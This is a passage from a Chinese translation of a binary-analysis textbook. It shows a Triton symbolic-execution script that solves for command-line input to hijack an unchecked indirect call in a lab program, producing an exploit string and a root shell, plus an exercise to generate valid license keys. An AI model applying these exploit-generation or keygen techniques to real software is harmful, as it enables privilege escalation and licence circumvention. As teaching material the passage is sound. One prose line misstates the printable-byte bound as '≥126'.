       print 'Symbolized argument %d: %s' % (rdi, s)
```

为了符号化用户输入，`symbolize_inputs`需要访问被分析程序的参数计数（`argc`）和参数向量（`argv`）。由于`symbolize_inputs`在`main`函数开始时被调用，因此可以通过读取`rdi`和`rsi`寄存器来获取`argc`和`argv`，根据 x86-64 System V ABI 规范，这两个寄存器分别包含`main`的前两个参数 ➊。要读取寄存器当前的值，可以使用`pintool.getCurrentRegisterValue`函数，并将寄存器的 ID 作为输入。

在获得`argc`和`argv`后，`symbolize_inputs`通过递减`rdi`（`argc`）来循环处理所有参数，直到没有剩余的参数 ➋。回想一下，在 C/C++程序中，`argv`是一个指向字符串的指针数组。为了从`argv`中获取指针，`symbolize_inputs`使用 Triton 的`pintool.getCurrentMemoryValue`函数，读取 8 字节（`triton.CPUSIZE.QWORD`）数据，当前由`rdi`索引的`argv`条目，函数接收地址和大小作为输入 ➌，并将读取到的指针存储在`addr`中。

接下来，`symbolize_inputs`会逐个读取`addr`所指向的字符串中的所有字符，递增`addr`，直到读取到`NULL`字符 ➍。为了读取每个字符，它再次使用`getCurrentMemoryValue` ➎，这次没有指定大小参数，因此它会读取默认大小为 1 字节的数据。在读取字符后，`symbolize_inputs`将该字符设置为该内存地址的具体值，并将该内存地址中的用户输入字节转换为符号变量 ➐，并在该符号变量上设置注释，提醒你它对应于哪个`argv`索引。再次提醒，这部分内容应该在你之前看到的 C++示例中就已经熟悉了。

在`symbolize_inputs`完成后，所有用户提供的命令行参数将被转换为单独的符号变量（每个输入字节对应一个符号变量），并在 Triton 的全局上下文中设置为具体状态。现在，让我们看看*exploit_callsite.py*是如何使用求解器来解这些符号变量，并找到针对漏洞调用点的漏洞利用的。

##### 破解漏洞

清单 13-16 展示了`hook_icall`，它是在每条指令执行前调用的回调函数。

*清单 13-16：* exploit_callsite.py *(续)*

```
   def hook_icall(insn):
➊     if insn.isControlFlow() and insn.getAddress() == taintedCallsite:
➋         for op in insn.getOperands():
➌             if op.getType() == triton.OPERAND.REG:
                  print 'Found tainted indirect call site \'%s\'' % (insn)
➍                exploit_icall(insn, op)
```

对于每条指令，`hook_icall`会检查它是否是你想要利用的间接调用。它首先验证这是否是一个控制流指令 ➊，并且它包含你想要利用的调用点地址。接着，它会遍历该指令的所有操作数 ➋，找到包含调用点目标地址的寄存器操作数 ➌。最后，如果所有这些检查都通过，`hook_icall`会调用`exploit_icall`函数来计算实际的利用代码 ➍。示例 13-17 展示了`exploit_icall`的实现。

*示例 13-17:* exploit_callsite.py *(续)*

```
   def exploit_icall(insn, op):
➊      regId   = Triton.getSymbolicRegisterId(op)
➋      regExpr = Triton.unrollAst(Triton.getAstFromId(regId))
➌      ast = Triton.getAstContext()

➍      exploitExpr = ast.equal(regExpr, ast.bv(target, triton.CPUSIZE.QWORD_BIT))
➎      for k, v in Triton.getSymbolicVariables().iteritems():
➏          if 'argv' in v.getComment():
               # Argument characters must be printable
➐             argExpr = Triton.getAstFromId(k)
➑             argExpr = ast.land([
                             ast.bvuge(argExpr, ast.bv(32, triton.CPUSIZE.BYTE_BIT)),
                             ast.bvule(argExpr, ast.bv(126, triton.CPUSIZE.BYTE_BIT))
                        ])
➒             exploitExpr = ast.land([exploitExpr, argExpr])

       print 'Getting model for %s -> 0x%x' % (insn, target)
➓     model = Triton.getModel(exploitExpr)
      for k, v in model.iteritems():
          print '%s (%s)' % (v, Triton.getSymbolicVariableFromId(k).getComment())
```

为了计算漏洞调用点的利用方式，`exploit_icall`首先获取包含间接调用目标地址的寄存器操作数的寄存器 ID ➊。接着，它调用`Triton.getAstFromId`来获取包含该寄存器符号表达式的 AST，并调用`Triton.unrollAst`将其“展开”为一个没有引用节点的完全展开的 AST ➋。

接下来，`exploit_icall`获取一个 Triton `AstContext`，它用来为求解器构建 AST 表达式 ➌，就像你在第 13.4 节的代码覆盖工具中看到的那样。要满足的利用的基本约束很简单：你想找到一个解，使得间接调用目标寄存器的符号表达式等于存储在全局`target`变量中的秘密管理员区域的地址 ➍。

请注意，常量`triton.CPUSIZE.QWORD_BIT`表示机器四字（8 字节）大小的*位*数，与`triton.CPUSIZE.QWORD`表示的字节数大小相比。也就是说，`ast.bv(target, triton.CPUSIZE.QWORD_BIT)`构建了一个包含秘密管理员区域地址的 64 位位向量。

除了目标寄存器表达式的基本约束外，利用还需要对用户输入的形式施加一些约束。为了强加这些约束，`exploit_icall`会遍历所有符号变量 ➎，检查它们的注释，查看它们是否表示来自`argv`的用户输入字节 ➏。如果是，`exploit_icall`会获取符号变量的 AST 表达式 ➐，并将其约束为该字节必须是可打印的 ASCII 字符 ➑（≥32 和≥126）。然后，它会将这个约束追加到利用的约束列表中 ➒。

最后，`exploit_icall`调用`Triton.getModel`来计算它刚刚构建的约束集的利用模型 ➓，如果存在这样的模型，它会将模型打印到屏幕上，用户可以使用该模型来利用`icall`程序。在模型中的每个变量，输出会显示其 Triton ID 以及它的可读注释，说明该符号变量对应哪个`argv`字节。这样，用户就可以轻松地将模型映射回具体的命令行参数。我们通过为`icall`程序生成一个利用代码并使用它获取 root shell 来试试这个。

#### *13.5.4 获取 Root Shell*

列表 13-18 显示了如何在实践中使用 *exploit_callsite.py* 为 `icall` 程序生成利用方法。

*列表 13-18：尝试通过输入长度为 3 来为 icall 找到利用方法*

```
➊ $ cd ~/triton/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build
➋ $ ./triton ➌~/code/chapter13/exploit_callsite.py \
             ➍~/code/chapter13/icall 2 AAA
➎ Symbolized argument 2: AAA
   Symbolized argument 1: 2
➏ Calling 0x223c625e
➐ Found tainted indirect call site '0x400bef: call rax'
➑ Getting model for 0x400bef: call rax -> 0x400b3b
   # no model found
```

首先，你需要导航到虚拟机上的 Triton 主目录，在那里你会找到 `triton` 包装脚本 ➊。回想一下，Triton 提供了这个包装脚本，用于自动处理符号工具所需的 Pin 设置。简而言之，包装脚本使用 Triton 的符号库作为 Pintool，在 Pin 中运行被分析的程序（`icall`）。该库将你自定义的符号工具 (*exploit_callsite.py*) 作为参数，并负责启动该工具。

启动分析所需做的就是调用 `triton` 包装脚本 ➋，并传入 *exploit_callsite.py* 脚本的名称 ➌，以及要分析的程序的名称和参数（例如 `icall`，索引为 2，输入字符串为 `AAA`） ➍。`triton` 包装脚本现在确保 `icall` 在给定的参数下运行，并在 *exploit_callsite.py* 脚本的控制下使用 Pin。请注意，输入字符串 `AAA` 并不是一个利用方法，而仅仅是一个任意的字符串，用于驱动符号执行。

脚本拦截 `icall` 的 `main` 函数，并将 `argv` 中的所有用户输入字节进行符号化 ➎。当 `icall` 到达间接调用点时，它使用地址 `0x223c625e` 作为目标 ➏，该地址是 `AAA` 的哈希值。这是一个虚假的地址，通常会导致崩溃，但在这种情况下并不重要，因为 *exploit_callsite.py* 在间接调用执行之前就已经计算出利用模型。

当间接调用即将执行➐时，*exploit_callsite.py* 尝试找到一个模型，该模型生成一组用户输入，这些输入的哈希值对应于调用目标 `0x400b3b`，即秘密管理员区域的地址 ➑。请注意，这一步可能需要一些时间，具体取决于你的硬件配置，可能会花费几分钟。不幸的是，解算器未能找到一个模型，因此 *exploit_callsite.py* 停止执行，并未找到利用方法。

幸运的是，这并不意味着没有利用方法存在。回想一下，你已将输入字符串 `AAA` 提供给 `icall` 的符号执行，并且 *exploit_callsite.py* 为该字符串中的三个输入字节创建了一个单独的符号变量。因此，解算器尝试基于长度为 3 的用户输入字符串找到一个利用模型。因此，解算器未能找到利用方法仅仅意味着没有长度为 3 的输入字符串能形成合适的利用方法，但你可能会在其他长度的输入中更幸运。为了避免手动尝试每种可能的输入长度，你可以自动化这个过程，正如 列表 13-19 所示。

*列表 13-19：使用不同输入长度进行脚本化的利用尝试*

```
   $ cd ~/triton/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build
➋ $ for i in $(seq 1 100); do
      str=`python -c "print 'A'*"${i}`
      echo "Trying input len ${i}"
➌    ./triton ~/code/chapter13/exploit_callsite.py ~/code/chapter13/icall 2 ${str} \
       | grep -a SymVar
     done
➍ Trying input len 1
   Trying input len 2
   Trying input len 3
   Trying input len 4
➎ SymVar_0 = 0x24 (argv[2][0])
   SymVar_1 = 0x2A (argv[2][1])
 SymVar_2 = 0x58 (argv[2][2])
   SymVar_3 = 0x26 (argv[2][3])
   SymVar_4 = 0x40 (argv[2][4])
   SymVar_5 = 0x20 (argv[1][0])
   SymVar_6 = 0x40 (argv[1][1])
   Trying input len 5
➏ SymVar_0 = 0x64 (argv[2][0])
   SymVar_1 = 0x2A (argv[2][1])
   SymVar_2 = 0x58 (argv[2][2])
   SymVar_3 = 0x26 (argv[2][3])
   SymVar_4 = 0x3C (argv[2][4])
   SymVar_5 = 0x40 (argv[2][5])
   SymVar_6 = 0x40 (argv[1][0])
   SymVar_7 = 0x40 (argv[1][1])
   Trying input len 6
   ˆC
```

在这里，我使用了一个`bash for`语句来循环遍历从 1 到 100 之间的所有整数 *i* ➊。每次迭代中，循环创建一个由 *i* 个字母“A”组成的字符串 ➋，然后尝试使用这个长度为 *i* 的字符串作为用户输入 ➌，就像你在列表 13-18 中看到的长度为 3 的情况一样。^(8)

为了减少输出中的杂乱，你可以使用`grep`命令只显示包含 *SymVar* 字样的输出行。这确保了输出中只显示来自成功模型的行，而那些没有生成模型的漏洞生成尝试则会静默失败。

漏洞循环的输出从 ➍ 开始。它未能为输入长度 1 到 3 找到模型，但在长度 4 ➎ 和长度 5 ➏ 时成功了。由于已经找到了漏洞，我在此停止了执行，因为不需要再尝试更多的输入长度。

让我们尝试输出中报告的第一个漏洞（长度为 4 的那个）。为了将这个输出转换为漏洞字符串，你需要将求解器分配给符号变量的 ASCII 字符串连接起来，这些符号变量对应于`argv[2][0]`到`argv[2][3]`，因为这些是作为输入传递给 `icall` 哈希函数的用户输入字节。如你在列表 13-19 中看到的，求解器为这些字节分别选择了值`0x24`、`0x2A`、`0x58`和`0x26`。`argv[2][4]`处的字节应该是用户输入字符串的结束符`NULL`，但是求解器不知道这一点，所以选择了随机输入字节`0x40`，你可以放心忽略它。

在模型中分配给`argv[2][0]`到`argv[2][3]`的字节对应于 ASCII 漏洞字符串`$*X&`。让我们尝试将这个漏洞字符串作为输入传递给 列表 13-20 中的`icall`。

*列表 13-20：利用* icall *程序*

```
➊ $ cd ~/code/chapter13
➋ $ ./icall 2 '$*X&'
➌ Calling 0x400b3b
➍ # whoami
  root
```

为了尝试这个漏洞，你需要回到本章的代码目录，在那里`icall`是➊，然后使用超出边界的索引 2 和刚生成的漏洞字符串 ➋ 来调用 `icall`。如你所见，漏洞字符串的哈希值正好为`0x400b3b`，这是秘密管理员区域的地址 ➌。由于用户提供的函数指针索引没有进行边界检查，你成功地欺骗了`icall`，让它调用了该地址，并给你一个 root shell ➍。如你所见，命令`whoami`输出了`root`，验证了你已经获得了 root shell。你已经通过符号执行自动生成了一个漏洞！

### 13.6 小结

在本章中，你学会了如何使用符号执行来构建工具，自动揭示关于二进制程序的非平凡信息。符号执行是最强大的二进制分析技术之一，尽管你需要小心使用它，以最小化可扩展性问题。正如你在自动利用示例中看到的，你可以通过将符号执行工具与其他技术（如动态污点分析）结合，进一步提高其有效性。

如果你已经完整阅读了本书，你现在应该熟悉多种二进制分析技术，这些技术可以用于各种目标，从黑客攻击和安全测试到逆向工程、恶意软件分析和调试。我希望这本书能够帮助你更有效地进行自己的二进制分析项目，并为你提供了一个坚实的基础，继续在二进制分析领域学习，甚至通过你自己的贡献推动这一领域的发展！

练习

1\. 生成许可证密钥

在本章的代码目录中，你会找到一个名为*license.c*的程序，它接受一个序列号作为输入并检查其是否有效（类似于商业软件中的许可证密钥检查）。使用 Triton 制作一个符号执行工具，能够生成*license.c*接受的有效许可证密钥。
